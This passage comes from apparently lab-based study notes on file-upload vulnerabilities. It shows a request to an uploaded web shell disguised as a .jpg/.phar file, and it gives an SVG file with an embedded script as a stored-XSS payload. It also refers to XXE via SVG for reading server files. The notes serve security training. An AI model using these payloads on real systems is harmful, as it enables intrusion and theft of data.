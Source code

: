![type-filters-exercise-step](/images/type-filters-exercise-step3.png)  

>Get sensitive info flag: `GET /profile_images/shell.jpg:.phar`.  

## XSS & XXE in Uploads  

>Burp Sutie Certified Practitioner Study Exercises and notes:
* [BSCP - XXE via SVG Image upload](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#xxe-via-svg-image-upload)  
* [BSCP - XSS SVG Upload](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#xss-svg-upload)  

>This File Upload exercise contains an vulnerable upload functionality that should be secure against arbitrary file uploads. But the content of the files can execute server side to read sensitive files using XXE or trigger stored XSS.  

>XSS inside SVG image file: `htb.svg`, uploaded to target.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
